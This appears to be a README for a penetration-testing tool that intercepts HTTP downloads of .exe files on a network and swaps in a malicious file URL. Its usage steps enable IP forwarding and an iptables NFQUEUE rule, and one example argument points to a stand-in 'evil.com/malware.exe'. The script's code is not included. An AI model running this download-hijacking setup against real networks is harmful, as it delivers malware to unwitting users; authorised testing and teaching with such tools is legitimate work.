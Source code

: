 # :boom: HTTP File Replacement Tool

This tool intercepts HTTP requests for `.exe` files and replaces the download link with a malicious file URL of your choice.  

## ⚠ Disclaimer
This project is for **educational and penetration testing purposes only**.  
Do **NOT** use this tool on networks you do not own or have explicit permission to test.  
Unauthorized use is **illegal** and punishable by law.

## 📌 Description
    - Intercepts HTTP requests for `.exe` files
    - Redirects downloads to a malicious URL
    - Allows specifying the malicious file URL via **command-line arguments**
    - Can be adapted to replace other file types (e.g., `.zip`, `.pdf`)

## 🚀 Usage:

1. Enable IP forwarding:


        echo 1 > /proc/sys/net/ipv4/ip_forward

2. Set up iptables rules:

        sudo iptables -I FORWARD -j NFQUEUE --queue-num 0

3. Run the script:

        sudo python file_replace.py -u "https://www.example/malicious.exe"

4. Restore firewall rules after finishing:

        sudo iptables --flush

📂 Command-Line Options

| Option         | Description                                 | Example                             |
| -------------- | ------------------------------------------- | ----------------------------------- |
| `-u` / `--url` | Malicious file URL to redirect downloads to | `-u "https://evil.com/malware.exe"` |




   
    
